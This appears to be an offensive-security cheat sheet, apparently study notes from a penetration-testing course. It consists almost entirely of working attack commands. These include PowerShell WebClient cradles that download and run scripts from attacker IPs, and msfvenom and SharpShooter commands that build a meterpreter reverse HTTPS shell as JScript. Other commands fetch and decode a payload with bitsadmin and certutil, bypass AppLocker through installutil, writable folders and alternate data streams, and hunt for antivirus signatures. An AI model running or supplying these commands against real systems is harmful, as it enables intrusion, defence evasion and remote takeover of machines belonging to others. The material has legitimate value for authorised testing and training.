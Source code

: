 # Proxies
## Remap reg hive
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
```

## Change UA of webclient
```
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

## Get Proxy settings as SYSTEM
```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}

$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.71/clip.txt")
```
## Create Jscript rev shell and vbscript
```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
DotNetToJScript.exe ExampleAssembly.dll --lang=vbscript --ver=v4 -o demo.vbs
```
## Sharpshooter

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f raw -o /var/www/html/shell.txt
┌──(kali㉿kali)-[/opt/SharpShooter]
└─$ sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test

```
# LOLBINS
## File download and applocker bypass exe

```
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\users\student\enc.txt
certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe
del C:\users\student\enc.txt
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```
# Applocker Bypass
## Copy to unprotected directories
```
copy Bypass.exe C:\Windows\Tasks
C:\Windows\Tasks\Bypass.exe 
```
## ADS
file must be both writable and executable
```
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
## installutil
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```
# AV
## Find signature
```
Import-Module .\Find-AVSignature.ps1
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
```
